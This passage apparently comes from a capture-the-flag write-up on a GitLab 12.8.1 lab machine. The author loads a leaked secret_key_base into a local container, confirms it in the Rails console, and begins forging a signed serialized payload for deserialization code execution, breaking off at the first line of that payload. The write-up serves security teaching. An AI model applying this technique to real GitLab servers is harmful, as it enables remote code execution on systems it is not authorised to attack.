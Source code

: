 
To update the `secret_key_base`, I’ll add it to `/etc/gitlab/gitlab/rb` inside
the container:

    
    
    root@d80815a5b502:/# echo "gitlab_rails['secret_key_base']='3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8e
    bb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3'" >> /etc/gitlab/gitlab.rb 
    root@d80815a5b502:/# gitlab-ctl reconfigure
    Starting Chef Client, version 14.14.29
    resolving cookbooks for run list: ["gitlab"]
    Synchronizing Cookbooks:
      - gitlab (0.0.1)  
      - postgresql (0.1.0)
    ...[snip]...
        * ruby_block[wait for grafana service socket] action run (skipped due to not_if)
         (up to date)
    
    Running handlers:
    Running handlers complete
    Chef Client finished, 2/687 resources updated in 07 seconds
    gitlab Reconfigured!
    

I’ll start the `irb` console, and note that the `secret_key_base` variable is
updated to match the one from Laboratory:

    
    
    root@d80815a5b502:/# gitlab-rails console
    --------------------------------------------------------------------------------
     GitLab:       12.8.1 (d18b43a5f5a) FOSS
     GitLab Shell: 11.0.0
     PostgreSQL:   10.12
    --------------------------------------------------------------------------------
    Loading production environment (Rails 6.0.2)
    irb(main):001:0> Rails.application.env_config["action_dispatch.secret_key_base"]
    => "3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3"
    

This is the key that is used to sign serialized objects so that a user can’t
tamper with them. Because I have it, I can now generate my own serialized
payload and the server will trust it and deserialize it, which is a path to
code execution.

I’ll build a payload using the steps from the [HackerOne
report](https://hackerone.com/reports/827052):

    
    
    irb(main):002:0> request = ActionDispatch::Request.new(Rails.application.env_config)